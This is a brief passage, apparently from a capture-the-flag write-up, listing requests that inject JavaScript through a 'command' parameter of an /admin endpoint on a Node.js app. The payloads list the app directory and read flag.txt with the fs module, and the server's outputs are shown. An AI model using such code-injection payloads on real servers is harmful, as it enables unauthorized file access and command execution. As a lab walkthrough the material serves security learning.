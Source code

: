 http://0.0.0.0/admin?command=new String(process.cwd())
"/home/node/app"

http://0.0.0.0/admin?command=new String(getDirectory())

http://0.0.0.0/admin?command=var fs=require("fs"); new String(fs.readdirSync("/home/node/app"))
"flag.txt,index.js,node_modules,package-lock.json,package.json,public"

http://0.0.0.0/admin?command=var fs=require("fs"); new String(fs.readFileSync("/home/node/app/flag.txt"))
"DDC{wh1tel1sts_ar3_c00l}"